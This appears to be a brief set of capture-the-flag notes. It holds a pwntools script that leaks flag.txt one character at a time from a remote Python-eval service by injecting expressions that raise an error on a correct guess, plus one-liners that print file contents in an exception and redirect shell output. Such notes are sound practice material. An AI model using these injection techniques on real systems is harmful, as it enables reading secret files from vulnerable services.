 # CTF-Notes
## Web
## Pwn
##### Timing Attack poc 
```
from pwn import remote
import string
host = ""
port = 
s = remote(host, port)
flag = ""
index = 0
changed = True
s.recvuntil('!\n')
while changed:
    changed = False
    for c in '_{}' + string.printable:
    	print("testing {}".format(flag + c))
    	command = '''1/0 if open('flag.txt','r').read({})[{}] == ''{}' else 0\n'''.format(index + 1, index, c)
    	print(command)
    	s.send(command)
    	answer = s.recvuntil("!\n")
    	if b'Traceback' in answer:
    		flag += c
    		changed = True
    		index += 1
    		break
```




## Reverse Engineering
## Crypto

## Misc/various 
#### Raise an error with the flag (python)
Ex: `raise NameError(open('flag.txt','r').read(50))`

#### No output on the shell?
try redirection ex: `ls 1>&0`
